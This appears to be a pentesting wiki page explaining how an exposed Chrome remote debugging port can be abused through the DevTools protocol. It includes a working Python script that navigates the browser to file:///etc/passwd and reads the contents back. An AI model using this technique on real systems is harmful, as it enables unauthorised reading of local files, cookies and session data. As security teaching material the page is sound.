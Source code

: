 ```yaml
---
description: The Chrome DevTools protocol for Remote Debugging
---
```


# Chrome Remote DevTools

When `google-chrome` is launched with remote debugging enabled, this is usually on port 9222. But it can be changed with the `--remote-debugging-port=` argument when it is started.&#x20;

When this port is accessible, you can connect to it with the [DevTools HTTP Protocol](https://chromedevtools.github.io/devtools-protocol/#endpoints) in order to make the browser do certain things. You can debug the currently viewed site, meaning reading any data, like HTML, cookies, or other stored data, and execute JavaScript in the console. As well as being able to browse to and **read arbitrary files** on the system.&#x20;

Get a list of sessions by requesting `/json` endpoint:

{% code title="http://localhost:9222/json" %}
```json
[ {
  "description": "",
  "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734",
  "id": "DAB7FB6187B554E10B0BD18821265734",
  "title": "Yahoo",
  "type": "page",
  "url": "https://www.yahoo.com/",
  "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734"
} ]
```
{% endcode %}

You can then visit the `devtoolsFrontendUrl` in your browser to get a regular GUI that you would get debugging any site. Here you can do anything normal DevTools would be able to, like executing JavaScript, reading stored data, and viewing the site.&#x20;

In the background, this will send various messages through the `webSocketDebuggerUrl`, which you can also directly access to have more control, and not be limited by the GUI. One interesting way of abusing this is to first **navigate** to a `file://` URL ([`Page.navigate`](https://chromedevtools.github.io/devtools-protocol/tot/Page/#method-navigate)), and then request the HTML content of the page using JavaScript ([`Runtime.evaluate`](https://chromedevtools.github.io/devtools-protocol/tot/Runtime/#method-evaluate)) to read arbitrary files. You can simply connect to the websocket in Python like so:

```python
from time import sleep
import requests
import websocket
import json


def page_navigate(ws, url):
    payload = {
        "id": 1,
        "method": "Page.navigate",
        "params": {
            "url": url
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())


def get_current_html(ws):
    payload = {
        "id": 2,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())["result"]["result"]["value"]


targets = requests.get("http://localhost:9222/json").json()
websocket_url = targets[0]["webSocketDebuggerUrl"]

ws = websocket.create_connection(websocket_url)
sleep(1)
print(page_navigate(ws, "file:///etc/passwd"))
sleep(3)
print(get_current_html(ws))
```

_Reference for this code was the_ [_Chrome Debugger metasploit module_](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/chrome\_debugger.rb)__

